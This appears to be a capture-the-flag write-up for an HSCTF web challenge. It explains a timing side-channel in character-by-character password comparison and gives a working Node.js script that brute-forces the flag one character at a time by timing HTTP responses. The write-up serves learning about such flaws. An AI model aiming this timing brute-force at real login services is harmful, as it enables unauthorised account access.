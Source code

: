 # Networked Password

Basically, this is a timing attack. When you compare two strings, you can compare character-by-character. 

The instant you find that a character doesn't match, you return and stop comparing. This means that the more characters match, the longer it will take.

The issue is that this allows us to bruteforce one character at a time, instead of the entire password at a time. This decreases the amount of tries we have to make significantly.

Here's the script:
```javascript
const request=require("request")

let str="abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789_-!@#$%^&*()}"

let te="hsctf{sm0";
let don=[];
function req(te,ch,cb)
{
    request.post({time:true,url:"https://networked-password.web.chal.hsctf.com/",form:{password:te+str.charAt(ch)}},function(e,res,body){
        //console.log(ch+" "+String.fromCharCode(ch)+" "+res.timingPhases.download);
        don[ch]=res.timingPhases.firstByte;
//        console.log(don[ch])
    })
}

let ch=0;
while(ch<str.length)
{
 req(te,ch++)
}

setInterval(function(){
    let biggest=1;
    let second=1;
    for(let i=0;i<don.length;i++)
        if(don[i]>don[biggest]) biggest=i;
        else if(don[i]>don[second]) second=i;

    console.log(str.charAt(biggest)+" "+don[biggest])
    console.log(str.charAt(second)+" "+don[second])
    console.log(don[biggest]-don[second])

    te+=str.charAt(biggest);
    ch=0;
    while(ch<str.length)
    {
         req(te,ch++)
    }
    console.log(te)

},10000)```

don't judge the script, I just needed something that worked

